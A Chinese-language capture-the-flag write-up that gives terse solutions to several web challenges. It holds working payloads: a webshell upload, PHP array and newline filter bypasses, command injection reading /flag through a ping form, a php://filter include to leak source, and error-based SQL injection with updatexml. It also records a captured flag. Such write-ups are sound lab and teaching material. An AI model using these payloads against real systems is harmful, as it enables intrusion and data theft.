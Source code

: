 #### ezweb

蚁剑连接 `newcha11enge.php`，密码xju。

#### ezmd5

`?name[]=1`，post：`password[]=0`。

#### ezupload

F12关闭js上传一句话木马。

#### ezphp

`?a=welcome_to_xju%0a`

post:`b=system("sort%09/flag");`

#### EasyInclude 2024

[原题](https://www.shawroot.cc/730.html) flag:xjusec{b04a9c313c5f4201b0299f4156896163}

#### ping

"/"base64编码为 `Lw==`

输入![1729694161187](image/1020-1026周报/1729694161187.png)
ls%09 `echo%09'Lw=='%09|%09base64%09-d`，查看根目录文件发现有flag文件

"/flag"base64编码为 `L2ZsYWc=`

输入![1729694368175](image/1020-1026周报/1729694368175.png)

ip=192.168.1.1|ca\t%09 `echo%09'L2ZsYWc='%09|%09base64%09-d`

getflag

#### pseudoproto

`?x=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=f1laggggg.php`

#### ezsql

password=`1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~qsnctf~'

`1'or(updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~flaggg,user~'
